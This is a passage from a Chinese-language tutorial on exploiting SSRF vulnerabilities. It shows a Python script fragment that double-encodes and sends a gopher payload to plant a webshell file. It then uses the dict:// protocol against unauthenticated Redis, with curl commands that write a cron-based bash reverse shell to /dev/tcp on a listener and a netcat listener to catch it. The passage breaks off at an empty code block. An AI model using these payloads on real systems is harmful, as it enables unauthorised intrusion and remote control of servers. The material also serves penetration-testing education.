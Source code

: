 ```python

"""

def encoder_url(data):
    encoder = ""
    for single_char in data:
        # 先转为ASCII
        encoder += str(hex(ord(single_char)))
    encoder = encoder.replace("0x","%").replace("%a","%0d%0a")
    return encoder

# 二次编码
encoder = encoder_url(encoder_url(data))

print encoder
# 生存payload
payload = url + urllib.quote(gopher,'utf-8') + encoder

# 发起请求
request = urllib2.Request(payload)
response = urllib2.urlopen(request).read()
print response
```
执行后可以看到目标主机有了margin.php文件，使用菜刀连接即可。
## SSRF漏洞中使用到的其他协议
### 0x01 dict协议
**定义**：词典网络协议，在RFC 2009中进行描述。它的目标是超越Webster protocol，并允许客户端在使用过程中访问更多字典。Dict服务器和客户机使用TCP端口2628。（摘自百度百科）<br />**DICT协议在SSRF漏洞中使用**<br />在SSRF利用中，gopher协议无疑是最好用的，但gopher协议的使用是有一定条件的，如下：<br />![](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624868913528-040da6d1-7a06-4835-b300-6a197ba3824b.png#align=left&display=inline&height=173&margin=%5Bobject%20Object%5D&originHeight=173&originWidth=1440&size=0&status=done&style=none&width=1314)

当gopher协议无法使用时，怎么办？这时候可以使用dict协议，我们先看执行效果：<br />![](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624868913549-a916b208-9986-4095-ac28-033a0fb8671f.png#align=left&display=inline&height=140&margin=%5Bobject%20Object%5D&originHeight=140&originWidth=1330&size=0&status=done&style=none&width=1330)<br />由上图可以发现通过dict协议，可以看出目标端口的指纹信息，通过上图返回的指纹信息，可以明确，是6379的redis数据库。OK，现在我们知道，利用dict协议可以探测端口的开放情况和指纹信息，那么dict协议怎么进一步使用？有什么语法？以下为dict协议的使用：

1. dict://serverip:port/命令:参数
1. 向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n(CRLF)，为漏洞利用增添了便利
1. 通过dict协议的话要一条一条的执行，而gopher协议执行一条命令就行了。

明白利用方法后，我们可以使用dict协议执行命令，例如可以获取redis的变量
```bash
margine:~ margin$ curl dict://192.168.0.67:6379/get:name
-ERR Syntax error, try CLIENT (LIST | KILL ip:port | GETNAME | SETNAME connection-name)
$6
Margin
+OK
```
通过dict协议利用redis的未授权访问反弹shell的步骤如下：
```bash
# 1、开启反弹shell的监听
nc -l 9999
# 2、依次执行下面的命令
curl dict://192.168.0.119:6379/set:mars:"\n\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n\n"
curl dict://192.168.0.119:6379/config:set:dir:/etc/
curl dict://192.168.0.119:6379/config:set:dbfilename:crontab
curl dict://192.168.0.119:6379/bgsave
```
执行时，反弹shell的命令，也就是set:mars:xxx，会因为特殊字符的原因无法写入到目标的redis中，被被空格所分割导致出现一下情况：
```
```